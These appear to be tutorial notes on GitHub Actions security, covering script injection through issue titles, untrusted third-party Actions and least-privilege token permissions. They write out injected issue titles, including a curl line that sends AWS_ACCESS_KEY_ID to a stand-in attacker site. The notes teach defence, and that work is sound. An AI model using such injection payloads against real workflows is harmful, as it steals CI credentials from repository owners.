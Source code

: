 # Section 10: Security & Permissions

## Script Injection
```
A value, set outside a Workflow, is used in a Workflow
Example(s):
    - Issue title used in a Workflow shell command
        -- Workflow / command behavior could be changed
```
Example Steps:
1. Create an issue entitled `Something's wrong!`
```
Workflow(script-injection.yml) runs as expected
```
2. Create an issue entitled `a";echo Got your secrets"`
```
Workflow(script-injection.yml) runs with unexpected behavior:
> echo Got your secrets

How it works:
> `a"` closed Workflow(script-injection.yml)'s `issue_title="`
> `;echo Got your secrets` injected unexpected behavior
> trailing `"` closed Workflow's trailing `"`

Original Command:
> issue_title="${{ github.event.issue.title }}"

Final command:
> issue_title="a";echo Got your secrets""
```
3. Create an issue entitled `a"; curl http://my-bad-site.com?abc=$AWS_ACCESS_KEY_ID`
```
How it works:
> Does similar trick as Example 2
> Attacker can extract interpolated environment variable `AWS_ACCESS_KEY_ID` and store it somewhere else
```

## Malicious Third-Party Actions
```
Actions can perform any logic, including potentially malicious logic
Example(s):
    - A third-party Action that reads and exports your secrets
Solution(s):
    - Only use trusted Actions and inspect code of unknown / untrusted authors
```
### Using Actions Securely
#### Only use your own Actions
```
Pros: Highest level of security
Cons: Considerable amount of effort
```
#### Only use Actions by verified creators
![Github Verified Creator](./images/GitHub-verified-creator.png)
Look for `Creator verified by GitHub` check mark
```
Pros: Less amount of effort
Cons: Still not a 100% guarantee
```
#### Use all public Actions
```
Pros: Solves most of the problems you might encounter
Cons:
  - Lowest level of security
  - You must analyze the Action code first before using it
```

## Permission Issues
```
Avoid overly permissive permissions (Least Privilege Principle)
Example(s):
    - Only allow checking out code ("read-only")
Solution(s):
    - GitHub Actions supports fine-grained permissions control
```
- [Permissions for the GITHUB_TOKEN](https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token)
- [Assigning permissions to jobs](https://docs.github.com/en/actions/using-jobs/assigning-permissions-to-jobs)
- [About security hardening with OpenID Connect](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/about-security-hardening-with-openid-connect)
- [Configuring OpenID Connect in Amazon Web Services](https://docs.github.com/en/actions/deployment/security-hardening-your-deployments/configuring-openid-connect-in-amazon-web-services)
- [Security hardening for GitHub Actions](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [Using secrets in GitHub Actions](https://docs.github.com/en/actions/security-guides/using-secrets-in-github-actions)
- [Automatic token authentication](https://docs.github.com/en/actions/security-guides/automatic-token-authentication)
- [Keeping your GitHub Actions and workflows secure Part 1: Preventing pwn requests](https://securitylab.github.com/research/github-actions-preventing-pwn-requests/)